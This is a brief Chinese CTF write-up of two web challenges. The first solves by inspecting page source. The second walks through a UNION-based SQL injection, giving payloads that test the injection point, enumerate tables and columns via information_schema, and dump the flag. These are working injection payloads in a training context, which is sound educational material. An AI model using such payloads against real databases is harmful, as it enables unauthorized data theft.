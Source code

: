 ## web1

+ 启动环境，右键检查元素，直接找到<code>flag</code>

![web1_1](./img/web1_1.PNG)



## web2

+ 启动环境，根据提示这一关是<code>sql</code>注入，打开后发现有几个注入点

![web2_1](./img/web2_1.PNG)



+ 注入万能语句，成功找到注入点

~~~ shell
1' or 1=1 #
~~~

![web2_2](./img/web2_2.png)



+ 注入以下语句，得到回显的位置

~~~ shell
1' union select 1,2,3#
~~~

![web2_3](./img/web2_3.PNG)



+ 联合查询，得到数据表名

~~~ shell 
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()#
~~~

![web2_4](./img/web2_4.png)



+ 继续联合查询，得到字段名

~~~ shell
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='flag'#
~~~

![web2_5](./img/web2_5.png)



+ 最后爆破字段，得到<code>flag</code>

~~~ shell
1' union select 1,flag,3 from flag#
~~~

![web2_6](./img/web2_6.PNG)

